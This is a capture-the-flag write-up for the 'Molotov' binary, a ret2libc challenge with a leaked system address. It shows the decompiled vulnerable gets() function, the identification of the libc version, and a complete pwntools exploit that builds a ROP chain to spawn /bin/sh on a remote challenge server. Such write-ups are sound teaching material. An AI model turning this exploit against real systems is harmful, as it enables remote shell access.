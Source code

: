 ```yaml
---
description: A ret2libc with a given leak
---
```


# Molotov

## ‌Overview

Running the binary prints and hex value and prompts for input:

```text
$ ./molotov
f7d9ef00
Input :
```

We can definitely cause it to segfault:

```text
$ python3 -c 'print("A"*300)' | ./molotov
f7d61f00
Input : 
Segmentation fault
```

So let's work out what this value is and how we can use it.‌

## Decompilation <a id="decompilation"></a>

‌

We chuck the binary into GHidra and get a simple disassembly. `main` calls `vuln` and does almost nothing else. `vuln`, however, has _some_ interesting stuff:

```c
int vuln(void){
    char buffer [24];
    
    printf("%x\n",system);
    puts("Input : ");
    
    gets(buffer);
    
    return 0;
}
```

‌

It prints the address of `system`! Awesome.‌

Let's run the binary on the remote serevr to leak the libc version.

```text
$ nc 54.210.217.206 1240
f7d3c8b0
Input :
```

‌

So now we essentially have a libc leak, we head over to [find the libc version](https://libc.blukat.me/).![](https://gblobscdn.gitbook.com/assets%2F-MFC6wsr3fMfJKJtYtmn%2F-MG4TH0ZQ5tkG_qg_28t%2F-MG4_uje-dVyvfpG0wn5%2Fimage.png?alt=media&token=fd4a0efa-27f3-47fc-8d8c-8de6e2eed2d3)There are 4 matches‌

Annoyingly, there are 4 possible libc versions, and we can only get it from trial and error. Aside from the libc version itself, the exploit is quite simple - subtract the offset of `system` from the leaked address to get `libc` base, then use that to get the location of `/bin/sh`.

The correct libc version is `2.30-0ubuntu2.1_i386`.‌

## Exploitation <a id="exploitation"></a>

```python
from pwn import *

elf = context.binary = ELF('./molotov')

if args.REMOTE:
    libc = ELF('./libc-remote.so')
    p = remote('54.210.217.206', 1240)
else:
    libc = elf.libc
    p = process()

addr = int(p.recvline(), 16)
p.clean()

libc.address = addr - libc.sym['system']

rop = ROP(libc)
rop.raw('A' * 32)
rop.system(next(libc.search(b'/bin/sh\x00')))

p.sendline(rop.chain())
p.interactive()
```

